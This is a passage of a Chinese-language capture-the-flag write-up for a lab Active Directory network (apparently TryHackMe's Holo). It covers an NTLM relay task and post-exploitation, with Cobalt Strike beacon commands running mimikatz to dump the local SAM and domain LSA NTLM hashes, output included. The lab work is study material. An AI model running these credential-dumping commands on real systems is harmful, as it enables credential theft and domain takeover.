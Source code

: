 ```
![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1659858952513.png)

**Task 46  NTLM Relay Now you see me, now you don't**

> What host has SMB signing disabled?

> DC-SRV01


# 后渗透

使用mimikatz导出sam里的哈希,与我们relay时收到的哈希是一致的
```
beacon> mimikatz lsadump::sam
[*] Tasked beacon to run mimikatz's lsadump::sam command
[+] host called home, sent: 750702 bytes
[+] received output:
Domain : DC-SRV01
SysKey : 739c5b5f17a8c2bbeb4ddd207a90710e
Local SID : S-1-5-21-1295596150-3325788684-427610580

SAMKey : 123125e678eaef2f588002dcd3d75067

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 70017854acf6ea8d2af520eddcc866fb

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
```

导出整个域的哈希

```
beacon> mimikatz lsadump::lsa /patch
[*] Tasked beacon to run mimikatz's lsadump::lsa /patch command
[+] host called home, sent: 750702 bytes
[+] received output:
Domain : HOLOLIVE / S-1-5-21-471847105-3603022926-1728018720

RID  : 000001f4 (500)
User : Administrator
LM   : 
NTLM : ae19656e1067231cb5e3c5dcea320bba

RID  : 000001f5 (501)
User : Guest
LM   : 
NTLM : 
